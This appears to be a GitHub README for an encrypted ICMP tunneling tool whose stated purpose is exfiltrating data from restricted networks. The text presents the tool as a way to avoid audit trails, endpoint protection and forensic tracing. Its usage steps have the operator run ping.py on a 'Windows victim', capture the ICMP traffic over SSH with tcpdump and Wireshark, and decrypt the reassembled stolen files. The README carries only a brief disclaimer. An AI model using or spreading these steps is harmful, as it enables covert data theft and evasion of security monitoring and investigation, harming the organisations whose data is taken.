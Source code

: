 # Overview

Based on https://github.com/DhavalKapil/icmptunnel https://github.com/lucadibello/WeaponizedPing 

Based on MITRE Tactics: T1572 Protocol Tunneling, T1030 Data Transfer Size Limits, T1567 Exfiltration Over Web Service, T1090 Multi-hop Proxy

Encrypted version for ICMP tunneling. 

Exfiltration of data in a restricted network environment can be a tough thing to do. When you do things like plugging USB, moving and sending files across networks to yourself. It all leaves an audit trail. This audit trail can be even stronger when used with powerful endpoint protection tools like CrowdStrike. Even when you try to cover your tracks and footprints, using VPNs and deleting logs files, there is still a possibility of being traced back to you when digital forensics is being conducted. This could result in the court ordering ISP, service providers to give up subscriber’s VPN information. 

ICMP packets are usually used for troubleshooting throughout networks or to check whether hosts are alive. We utilise this to send information or files out to other public endhosts.  

This is for testing purposes only. Use it at your own risk and only at authorised computers. Some of the stuff are hardcoded so better look before using anything. Thanks

## Topology 
Exfiltration of data scenario
![ICMP an0nymizer (1)](https://user-images.githubusercontent.com/91510432/199385807-3f38685b-4c55-4eba-bd30-271af9bc2d56.png)

### Overview of an encrypted packet
![Screenshot_3](https://user-images.githubusercontent.com/91510432/199401514-62c5d4ef-88d5-4632-8312-259aee4c9328.png)


### Usage 
1. `pip3 install -r requirements.txt`

2. Move the Documents folder to your Desktop (Windows victim)

3. Using another Linux machine. You can use VPN or proxychains here whatever.
    - Move your private.pem key here.
    - Move decryptor.py here.

4. Sniffing of packets and decrypting it (Sniffing and reconstructing files or information)
    - If you are sniffing through SSH from a server. Run the command `ssh -i webserver.pem root@<ip address> tcpdump -U -s0 -w - 'not port 22' | wireshark -k -i -`
    - If you are sniffing through a normal private network. Run wireshark and save the pcap file.
    - Copy the temporary wireshark pcap filepath output
    - On the victim machine, execute the python command `python ./ping.py` OR run the ping.exe file.
    - Monitor wireshark for ICMP pings with bigger than usual data blocks. Stop when all packets are sent
    - Run the command to start the reconstructing files with the filepath copied `python ./decryptor.py -p <paste copied filepath here>`

